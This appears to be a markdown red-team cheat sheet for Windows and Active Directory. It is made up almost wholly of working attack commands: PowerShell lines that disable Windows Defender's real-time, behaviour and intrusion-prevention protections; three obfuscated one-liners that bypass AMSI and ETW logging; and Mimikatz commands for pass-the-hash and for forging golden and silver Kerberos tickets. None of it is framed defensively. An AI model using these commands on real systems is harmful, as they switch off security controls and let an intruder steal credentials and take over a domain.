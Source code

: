 **Glossary**

***Security bypass***

> Policy bypass
>
> > ``

> ***Disable Defender*** 
>
> > ```powershell
> > Set-MpPreference -DisableIOAVProtection $true
> > Set-MpPreference -DisableRealtimeMonitoring $true
> > Set-MpPreference -DisableBehaviorMonitoring $true
> > Set-MpPreference -DisableIntrusionPreventionSystem $true
> > Set-MpPreference -DisablePrivacyMode $true
> > ```

> ***AMSI Bypass*** 
>
> > ```powershell
> > sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
> > ```
> >
> > ```powershell
> > (({}).gettype())."aSs`emblY"."Getty`PE"(('System.Manage'+'ment.Automati'+'on.Trac'+'ing.P'+'SEtwL'+'og'+'Pro'+'vi'+'d'+'e'+'r'))."gEtf`ieLD"(('etwProvi'+'de'+'r'),('Non'+'P'+'ublic,Static'))."Se`TVAL`Ue"($null,(New-Object System.Diagnostics.Eventing.EventProvider(New-Guid)))
> > ```
> >
> > ```powershell
> > [ReF]."`A$(echo sse)`mB$(echo L)`Y"."g`E$(echo tty)p`E"(( "Sy{3}ana{1}ut{4}ti{2}{0}ils" -f'iUt','gement.A',"on.Am`s",'stem.M','oma') )."$(echo ge)`Tf`i$(echo El)D"(("{0}{2}ni{1}iled" -f'am','tFa',"`siI"),("{2}ubl{0}`,{1}{0}" -f 'ic','Stat','NonP'))."$(echo Se)t`Va$(echo LUE)"($(),$(1 -eq 1))
> > ```
> >
> > 

***Run after each ticket forge*** 

> ```powershell
> klist
> 
> Invoke-mimikatz -Command '"sekurlsa::pth /domain:<DomainControllerName> /user:<username> /ntlm:<CapturedValue> /run:powershell.exe"'
> 
> Invoke-Mimkatz -Command '"kerberos::golden /User:Administrator /domain:<DOMAINNAMEFQDN> /sid:<Domain SID> /krbtgt:<RC4 NTLM HASH>  /ptt"'
> 
> Invoke-Mimkatz -Command '"kerberos::golden /domain:<DOMAINNAMEFQDN> /sid:<Domain SID> /target:<server FQDN> /service:<ServiceName> /rc4:<RC4 NTLM HASH>  /User:Administrator  /ptt"'
> 
> ```
